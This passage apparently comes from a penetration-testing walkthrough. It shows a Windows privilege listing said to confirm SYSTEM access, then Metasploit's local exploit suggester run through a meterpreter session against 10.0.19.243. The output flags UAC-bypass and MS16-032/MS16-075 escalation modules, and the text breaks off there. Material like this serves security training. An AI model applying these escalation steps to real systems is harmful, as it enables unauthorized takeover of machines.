 ```bash
========================================= ================================================================== ========
SeAssignPrimaryTokenPrivilege             Replace a process level token                                      Disabled
SeAuditPrivilege                         Generate security audits                                           Disabled  
SeBackupPrivilege                        Back up files and directories                                      Disabled
SeChangeNotifyPrivilege                  Bypass traverse checking                                           Enabled
SeCreateGlobalPrivilege                  Create global objects                                              Enabled
[... many more privileges listed ...]
SeTakeOwnershipPrivilege                 Take ownership of files or other objects                           Disabled
SeTcbPrivilege                          Act as part of the operating system                                Enabled
```

#### **🎊 Outstanding Success! What This Proves:**
- **32+ System Privileges** - We have extensive system control
- **Critical Privileges Enabled** - SeDebugPrivilege, SeBackupPrivilege, etc.
- **SYSTEM Context Confirmed** - whoami shows NT AUTHORITY\SYSTEM
- **Complete Access Verified** - Can perform any action on the system

---

## 🧪 Method 2: Automated Escalation with Local Exploit Suggester

### **Step 1: Background Current Session and Run Suggester**

**What We're Doing:** Using Metasploit to automatically find privilege escalation opportunities

#### **Commands Used:**
```bash
meterpreter > background
use post/multi/recon/local_exploit_suggester  
set SESSION 1
exploit
```

#### **What Happened:**
```bash
msf6 exploit(windows/smb/psexec) > use post/multi/recon/local_exploit_suggester
msf6 post(multi/recon/local_exploit_suggester) > set SESSION 1
SESSION => 1
msf6 post(multi/recon/local_exploit_suggester) > exploit

[*] 10.0.19.243 - Collecting local exploits for x86/windows...
[*] 10.0.19.243 - 176 exploit checks are being tried...
[+] 10.0.19.243 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.0.19.243 - exploit/windows/local/bypassuac_fodhelper: The target appears to be vulnerable.
[+] 10.0.19.243 - exploit/windows/local/bypassuac_sluihijack: The target appears to be vulnerable.
[+] 10.0.19.243 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The target appears to be vulnerable.
[+] 10.0.19.243 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[*] Running check method for exploit 41 / 41
[*] 10.0.19.243 - Valid modules for session 1:
============================

```